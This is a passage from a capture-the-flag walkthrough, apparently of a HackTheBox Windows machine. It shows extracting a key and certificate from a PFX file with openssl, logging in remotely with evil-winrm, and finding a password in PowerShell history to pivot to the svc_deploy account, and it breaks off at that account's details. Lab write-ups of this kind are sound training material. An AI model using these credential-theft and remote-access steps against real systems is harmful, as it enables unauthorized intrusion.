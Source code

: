 We got the password, let's try again

```terminal
──╼ $ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key                                                                                         
Enter Import Password:                                                                                                                                        
Enter PEM pass phrase:                                                                                                                                        
Verifying - Enter PEM pass phrase:                                                                                                                            
                                                                                                                                                                                                                                                                          
──╼ $ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out winrm.crt         
Enter Import Password:                    
```

Now let's use `evil-winrm` to connect to the target.


```bash
evil-winrm -i 10.10.11.152 -c winrm.crt -k priv.key -S -r timelapse.htb
```

![](1.png)


# **Privilege Escalation**

Checking powershell history file we find a possible password.

![](2.png)

We couldn't use the password to login as Administrator but it worked with use `svc_deploy`

![](3.png)

Now let's run `net user svc_deploy` and see if we find something interesting.

```terminal
*Evil-WinRM* PS C:\> net user svc_deploy              
User name                    svc_deploy 
Full Name                    svc_deploy                                                                                                                       Comment                                                                        
User's comment  
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never                                                                                                                            
                                                                               
Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes
                                                                               
Workstations allowed         All                                                                                                                              
Logon script
User profile         
Home directory
Last logon                   10/25/2021 12:25:53 PM                                                                                                           

Logon hours allowed          All                                                                                                                              

```